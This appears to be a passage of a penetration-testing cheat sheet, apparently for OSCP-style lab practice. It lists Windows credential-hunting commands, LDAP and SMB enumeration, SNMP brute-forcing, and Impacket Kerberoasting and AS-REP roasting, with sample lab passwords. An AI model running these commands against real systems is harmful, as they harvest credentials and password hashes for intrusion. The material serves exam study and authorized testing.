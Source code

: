 **Interesting Files**

- `cmdkey /list`
- In Users directories `Get-ChildItem -Path C:\Users\ -Include *.txt,*.log,*.xml,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- On Filesystem `Get-ChildItem -Path C:\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- `sysprep.*` `unattend.*`
- `Group Policies` `gpp-decrypt <hash>`

### On Kali

### LDAP

- `ldapsearch -x -H ldap://<IP> -D 'medtech\wario' -w 'Mushroom!' -b 'DC=MEDTECH,DC=COM'`
- `ldapsearch -x -H ldap://<IP> -D 'wario' -w 'Mushroom!' -b 'DC=MEDTECH,DC=COM'`

### SMB

- `crackmapexec smb <IP> -u 'user' -p 'PASS' -d 'oscp.exam' --shares`
- `crackmapexec smb <IP> -u 'user' -p 'PASS' --local-auth --shares`
- `crackmapexec smb <IP> -u 'user' -p 'PASS' --sessions`
- `crackmapexec smb <IP> -u 'user' -p 'PASS' --lusers`

### SNMP

- `sudo nmap -sU -p 161 --script snmp-brute <IP>`
- `sudo nmap -sU -p 161 --script snmp-win32-users <IP>`
- `onesixtyone -c /usr/share/doc/onesixtyone/dict.txt <IP>`
- `snmpwalk -v 1 -c public 192.168.194.149 NET-SNMP-EXTEND-MIB::nsExtendObjects`
- `snmpwalk -v2c -c public 192.168.194.149 | grep <string>`
    - STRING
    - USER
    - PASSWORD
    - hrSWRunParameters
    - i "login|fail"
    - `E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b"`

### Impacket

### Kerberos

`impacket-GetUserSPNs corp.com/meg:'VimForPowerShell123!' -dc-ip <IP> -outputfile hashes.kerb`

### AS-REP Roast

`impacket-GetNPUsers corp.com/meg:'VimForPowerShell123!' -dc-ip <IP> -outputfile dave.hash`

---

### 03. Compile
